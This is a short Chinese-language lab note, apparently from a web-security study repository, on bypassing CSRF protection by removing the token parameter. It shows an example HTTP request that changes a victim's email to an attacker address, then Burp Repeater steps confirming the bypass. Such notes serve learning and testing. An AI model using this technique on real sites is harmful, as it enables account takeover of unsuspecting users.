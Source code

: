 ### 前置

1、某些应用程序在令牌存在时正确验证令牌，但如果忽略令牌，则跳过验证

```
在这种情况下，攻击者可以删除包含令牌的整个参数（而不仅仅是其值）以绕过验证并发起CSRF攻击：
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
 
email=pwned@evil-user.net
```

### 步骤

将请求发送到Burp Repeater，更改csrf参数的值，则请求被拒绝。完全删除csrf参数请求被接受

<img src=".\图片\Snipaste_2023-07-28_10-58-23.png" alt="Snipaste_2023-07-28_10-58-23" style="zoom:80%;" />
